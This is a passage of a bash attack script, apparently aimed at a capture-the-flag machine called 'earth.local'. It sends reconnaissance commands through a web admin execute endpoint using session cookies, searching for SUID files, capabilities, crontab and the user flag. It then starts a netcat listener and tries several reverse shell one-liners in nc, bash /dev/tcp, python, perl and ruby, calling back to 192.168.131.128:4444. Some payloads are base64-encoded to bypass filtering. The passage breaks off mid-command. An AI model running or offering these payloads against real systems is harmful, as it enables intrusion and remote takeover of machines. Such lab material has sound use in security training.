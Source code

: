 ```bash
    "ps aux"
    "netstat -tulpn"
    "ss -tulpn"
    "find / -perm -4000 -type f 2>/dev/null"
    "find / -perm -2000 -type f 2>/dev/null"
    "getcap -r / 2>/dev/null"
    "cat /proc/version"
    "cat /etc/crontab"
    "ls -la /var/www/"
    "ls -la /home/"
    "cat /var/earth_web/user_flag.txt"
)

for cmd in "${COMMANDS[@]}"; do
    echo "=== Executing: $cmd ==="
    curl -s -X POST http://earth.local/admin/execute \
         -b cookies.txt \
         -d "command=$cmd"
    echo -e "\n"
done

# ========================================
# PHASE 6: REVERSE SHELL ESTABLISHMENT
# ========================================

# Setup listener
nc -lvnp 4444 &
LISTENER_PID=$!

# Multiple reverse shell payloads (try different ones if blocked)
REVERSE_SHELLS=(
    "nc -e /bin/bash 192.168.131.128 4444"
    "bash -i >& /dev/tcp/192.168.131.128/4444 0>&1"
    "/bin/bash -c 'bash -i >& /dev/tcp/192.168.131.128/4444 0>&1'"
    "python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.131.128\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\",\"-i\"]);'"
    "perl -e 'use Socket;\$i=\"192.168.131.128\";\$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in(\$p,inet_aton(\$i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};'"
    "ruby -rsocket -e'f=TCPSocket.open(\"192.168.131.128\",4444).to_i;exec sprintf(\"/bin/sh -i <&%d >&%d 2>&%d\",f,f,f)'"
)

# Base64 encoding function
base64_encode_payload() {
    echo -n "$1" | base64 -w 0
}

# Try different reverse shell techniques
for payload in "${REVERSE_SHELLS[@]}"; do
    echo "Trying payload: $payload"
    
    # Direct execution
    curl -s -X POST http://earth.local/admin/execute \
         -b cookies.txt \
         -d "command=$payload" &
    
    sleep 2
    
    # Base64 encoded execution (bypass filtering)
    encoded_payload=$(base64_encode_payload "$payload")
    curl -s -X POST http://earth.local/admin/execute \
```